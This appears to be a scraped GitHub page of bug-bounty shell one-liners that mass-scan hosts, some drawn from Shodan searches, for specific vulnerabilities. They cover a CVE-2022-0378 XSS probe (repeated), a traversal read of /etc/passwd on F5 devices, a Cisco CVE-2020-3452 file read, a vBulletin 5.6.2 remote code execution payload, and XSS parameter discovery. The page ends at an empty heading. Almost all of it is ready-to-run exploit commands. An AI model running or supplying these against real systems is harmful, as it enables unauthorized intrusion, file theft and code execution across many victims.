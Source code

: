 ##### CVE-2022-0378
> @7h3h4ckv157

```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452
> @vict0ni

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378
> @7h3h4ckv157

```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JavaScript Files
> @D0cK3rG33k

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

### Extract Endpoints from JavaScript
> @renniepak
